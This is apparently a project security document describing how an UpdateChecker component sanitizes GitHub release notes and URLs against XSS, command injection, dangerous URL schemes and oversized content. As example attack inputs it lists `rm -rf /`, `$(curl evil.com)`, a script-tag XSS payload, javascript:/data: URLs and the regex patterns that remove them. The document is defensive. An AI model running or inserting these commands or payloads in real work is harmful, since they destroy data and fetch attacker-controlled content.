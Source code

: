 # Security Documentation - DollhouseMCP

## UpdateChecker Security Implementation

This document provides comprehensive details about the security measures implemented in the UpdateChecker component, addressing all concerns raised in PR reviews #69 and #70.

### Overview

The UpdateChecker component fetches release information from GitHub's API and displays it to users. This creates several security risks that have been comprehensively addressed:

1. **Cross-Site Scripting (XSS)** - Malicious JavaScript in release notes
2. **Command Injection** - Shell commands in displayed content
3. **Information Disclosure** - Sensitive data in logs
4. **Denial of Service** - Excessive content length
5. **URL Manipulation** - Dangerous URL schemes

### Security Measures Implemented

#### 1. XSS Protection (HIGH PRIORITY)

**Threat**: Malicious actors could inject JavaScript into GitHub release notes that executes when displayed.

**Mitigation**:
- **DOMPurify Integration**: Server-side HTML sanitization using DOMPurify with JSDOM
- **Strict Configuration**: 
  ```typescript
  {
    ALLOWED_TAGS: [],      // No HTML tags allowed
    ALLOWED_ATTR: [],      // No attributes allowed
    FORBID_TAGS: ['style', 'script', 'iframe', 'object', 'embed', 'link'],
    FORBID_ATTR: ['onerror', 'onload', 'onclick', 'onmouseover']
  }
  ```
- **Result**: All HTML/JavaScript is stripped before display

**Test Coverage**: `UpdateChecker.security.test.ts` - "should sanitize release notes in format output"

#### 2. Command Injection Prevention

**Threat**: Shell commands could be embedded in release notes (e.g., `` `rm -rf /` ``, `$(curl evil.com)`)

**Mitigation**:
- **Regex Pattern Removal**: Multiple patterns removed in single pass
  - Backtick expressions: `/`[^`]*`/g`
  - Command substitution: `/\$\([^)]*\)/g`
  - Variable expansion: `/\$\{[^}]*\}/g`
  - PHP tags: `/<\?[^>]*\?>/g`
  - ASP tags: `/<%[^>]*%>/g` and `/&lt;%[^>]*%&gt;/g`
  - Hex escapes: `/\\x[0-9a-fA-F]{2}/g`
  - Unicode escapes: `/\\u[0-9a-fA-F]{4}/g`
  - Octal escapes: `/\\[0-7]{1,3}/g`

**Test Coverage**: Complete pattern testing in performance tests

#### 3. URL Security

**Threat**: Malicious URL schemes like `javascript:alert('xss')` or `data:text/html,<script>...</script>`

**Mitigation**:
- **Whitelist Approach**: Only `http:` and `https:` schemes allowed
- **URL Length Validation**: Maximum 2048 characters (configurable)
- **Invalid URL Handling**: Malformed URLs return empty string

**Test Coverage**: URL validation tests with various dangerous schemes

#### 4. Information Disclosure Prevention

**Threat**: Sensitive information could be exposed in security logs

**Mitigation**:
- **Sanitized Logging**:
  - Long URLs: Only first 50 characters logged
  - Dangerous URLs: Only hostname logged, not full URL
  - Invalid URLs: Only length logged, not content
- **Example**:
  ```typescript
  this.logSecurityEvent('url_too_long', { 
    length: url.length, 
    maxLength: this.urlMaxLength,
    urlPrefix: url.substring(0, 50) + '...'  // Sanitized
  });
  ```

#### 5. DoS Prevention

**Threat**: Extremely long content could cause performance issues or crashes

**Mitigation**:
- **Configurable Length Limits**:
  - Release notes: Default 5000 characters
  - URLs: Default 2048 characters
- **Truncation**: Content exceeding limits is truncated with "..."
- **Security Event Logging**: Length violations are logged

#### 6. Performance Optimizations

**Security Benefit**: Faster processing reduces attack window

**Implementations**:
- **Cached DOMPurify**: Static instance reused across operations
- **Single-Pass Regex**: All patterns processed in one iteration
- **Memory Management**: `resetCache()` method for long-running processes

### Configuration Options

```typescript
new UpdateChecker(versionManager, {
  // Security configuration
  releaseNotesMaxLength: 10000,  // Custom limit
  urlMaxLength: 4096,             // Custom limit
  
  // Security monitoring
  securityLogger: (event, details) => {
    // Log to security monitoring system
    securityMonitor.log(event, details);
  }
});
```

### Security Events

The following events are logged when security measures are triggered:

| Event | Description | Details Logged |
|-------|-------------|----------------|
| `url_too_long` | URL exceeds max length | length, maxLength, urlPrefix (sanitized) |
| `dangerous_url_scheme` | Non-http(s) scheme detected | scheme, host (not full URL) |
| `invalid_url` | Malformed URL | urlLength (not content) |
| `release_notes_truncated` | Content exceeds max length | originalLength, maxLength |
| `html_content_removed` | HTML/JS was sanitized | removedLength |
| `injection_patterns_removed` | Command patterns removed | removedLength |

### Testing

Comprehensive test coverage ensures all security measures work correctly:

- **Security Tests**: 15 tests in `UpdateChecker.security.test.ts`
- **Performance Tests**: 12 tests in `UpdateChecker.performance.test.ts`
- **Attack Vectors Tested**:
  - XSS payloads: `<script>alert("xss")</script>`
  - Command injection: `` `rm -rf /` ``, `$(curl evil.com)`
  - URL manipulation: `javascript:`, `data:`, `file:`
  - Escape sequences: `\x3c`, `\u003c`, `\077`
  - Length attacks: 100KB+ content

### Type Safety

**Previous Issue**: Using `as any` to bypass TypeScript safety

**Resolution**: 
- Maintained type safety while working with JSDOM
- Documented why `any` type is used for JSDOM window
- No unsafe casts that could hide security issues

### PR Review Feedback Loop

**Issue Identified**: PR reviewers don't see comprehensive documentation when reviewing code, leading to concerns about already-addressed issues.

**Solution**: 
1. Include security documentation as code comments
2. Add comprehensive JSDoc for all security-critical methods
3. Create this SECURITY.md file for reference
4. Ensure commit messages include security context

### Future Considerations

1. **Content Security Policy**: Consider CSP headers for additional protection
2. **Rate Limiting**: Implement rate limits for update checks
3. **Signature Verification**: Verify GitHub release signatures
4. **Audit Logging**: Comprehensive audit trail for security events

### References

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [Node.js Security Best Practices](https://nodejs.org/en/docs/guides/security/)

---

This security implementation follows defense-in-depth principles with multiple layers of protection. Each layer is independently tested and documented to ensure comprehensive security coverage.